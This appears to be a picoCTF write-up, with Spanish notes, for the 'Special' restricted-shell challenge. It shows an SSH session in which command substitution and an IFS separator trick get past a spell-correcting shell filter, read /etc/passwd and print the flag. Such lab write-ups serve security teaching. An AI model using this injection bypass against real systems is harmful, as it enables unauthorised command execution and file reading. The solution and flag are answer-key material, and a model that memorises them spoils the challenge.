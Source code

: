 ## Description

Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.`ssh -p 62647 ctf-player@saturn.picoctf.net`The password is `483e80d4`
## Solución
```shell
┌──(kali㉿kali)-[~/shared/notas-seguridad-redes2024/picoCTF/special]
└─$ ssh -p 62647 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:62647 ([13.59.203.175]:62647)' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:62647' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ ls
Is 
sh: 1: Is: not found
Special$ hwllo
Hello 
sh: 1: Hello: not found
Special$ $(id)
$(id) 
sh: 1: uid=1000(ctf-player): not found
Special$ IFS=];b=cat]/etc/passwd;$b
IFS=];b=cat]/etc/passwd;$b 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
ctf-player:x:1000:1000::/home/ctf-player:/usr/local/Special.py
Special$ $(IFS=];b=ls]blargh;$b)    
$(IFS=];b=ls]blargh;$b) 
sh: 1: flag.txt: not found
Special$ $(IFS=];b=cat]blargh/flag.txt;$b)
$(IFS=];b=cat]blargh/flag.txt;$b) 
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}: not found
Special$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
                                                                                                                             
┌──(kali㉿kali)-[~/shared/notas-seguridad-redes2024/picoCTF/special]
└─$ 

```
## Bandera
```shell
flag: picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}
```
## Notas Adicionales
En este proceso, se realizó una conexión SSH al servidor remoto `saturn.picoctf.net` en el puerto `62647` utilizando el usuario `ctf-player`. Después de autenticarse con una contraseña, se intentó ejecutar varios comandos en la terminal, pero algunos no funcionaron correctamente debido a errores de sintaxis o restricciones en el entorno. Luego, se utilizó una técnica que modificaba la variable `IFS` (Internal Field Separator) para eludir las restricciones del entorno de comandos y ejecutar un `cat` al archivo `flag.txt`. Como resultado, se obtuvo la bandera del reto picoCTF: `picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}`. La conexión fue cerrada por el servidor al final.

# comandos utilizados
-  
## Referencias
- 
